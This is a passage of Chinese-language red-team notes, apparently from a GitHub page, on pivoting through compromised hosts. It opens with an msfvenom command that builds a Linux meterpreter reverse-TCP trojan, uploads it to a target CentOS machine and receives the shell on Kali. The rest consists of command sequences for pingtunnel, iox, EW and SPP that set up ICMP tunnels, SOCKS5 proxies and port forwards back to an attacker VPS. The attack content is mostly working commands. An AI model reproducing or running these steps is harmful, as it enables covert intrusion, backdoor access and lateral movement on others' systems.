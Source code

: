           kali 生成linux反弹木马,上传到目标机器centos的tmp下
          msfvenom -p linux/x64/meterpreter_reverse_tcp LHOST=127.0.0.1 LPORT=6666 -f elf > virscan.elf

          上传pingtunnel 到centos并执行
          # ./pingtunnel -type client -l 127.0.0.1:6666 -s 192.168.1.5 -t 192.168.1.5:7777 -tcp 1 -noprint 1 -nolog 1 &


          centos执行木马
          ./virscan.elf

          kali接受到反弹shell
          meterpreter > shell
          SHELL=/bin/bash script -q /dev/null
          ```
    + IOX [https://github.com/EddieIvan01/iox]()
      + 联动使用
        + VPS
          + 使用Pingtunnel搭建好vps、client后
          + ./iox proxy -l 3333 -l 4444
          + 将本地的3333端口转发到4444端口开启socks5隧道 注意顺序
        + Client
          + iox.exe proxy -r 0.0.0.0:2222
          + 客户端将本地的2222端口转发出网
        + 服务端收到客户端的socks5请求则成功
      + 单独使用
        + 穿透
          + VPS
            + ./iox fwd -l *2222 -l 3333 -k 123456
            + 将所有ip请求2222端口的流量转发到3333端口 并且使用key加密
          + Client
            + ./iox fwd -r 127.0.0.1:22 -r *vps:2222 -k 123456
            + 将本地22端口转发到服务端的2222端口
            + 此时的服务端访问本地的3333端口即可访问客户端的22端口
        + socks5
          + VPS
            + /etc/proxychains.conf写入socks5 0.0.0.0:1080
            + 或者
            + sockscap64中添加
            + ./iox proxy -l 2222 -l 1080
            + 建立socks5隧道 将2222端口转发到1080
          + Client
            + ./iox proxy -r vps:2222
            + 连接服务端的2222端口建立socks5
      + EW
        + 联动使用 https://blog.csdn.net/huayimy/article/details/135347548
          + 不知道为什么iox 和 pingtunnel为什么不能联动启socks5 随即换ew
          + VPS
            + ./ew -s rcsocks -e 3333 -l 4444
            + 建立socks5隧道 将3333端口转发到4444
          + Client
            + ./ew -s rssocks -d 127.0.0.1 -e 2222
            + 将客户端本地的请求通到我们客户端开启的pingtunnel的2222端口下
      + SPP
        + https://forum.butian.net/index.php/share/400
        + https://xz.aliyun.com/t/9820
        + https://github.com/esrrhs/spp
        + VPS

          + ./spp -type server -proto ricmp -listen 0.0.0.0
        + Client

          + ./spp -name "test" -type reverse_socks5_client -server vps -fromaddr :4444 -proxyproto tcp -proto ricmp
